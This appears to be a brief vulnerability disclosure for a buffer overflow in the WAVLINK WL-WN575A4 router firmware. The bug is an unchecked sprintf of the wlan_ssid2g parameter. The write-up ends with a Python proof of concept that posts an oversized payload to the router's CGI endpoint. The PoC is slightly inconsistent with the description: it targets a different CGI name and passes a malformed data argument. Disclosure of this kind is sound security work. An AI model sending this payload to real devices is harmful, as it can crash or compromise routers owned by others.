 # buffer overflow

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a buffer overflow in adm.cgi/set_wzdap

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](1.png)

get value from wlan_ssid2g ,and call sprintf, cause buff overflow



## POC
```
url = "http://192.168.0.1/cgi-bin/set_sys_adm.cgi"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={ 'page=wzdap&wlan_ssid2g=' + payload})
``` 
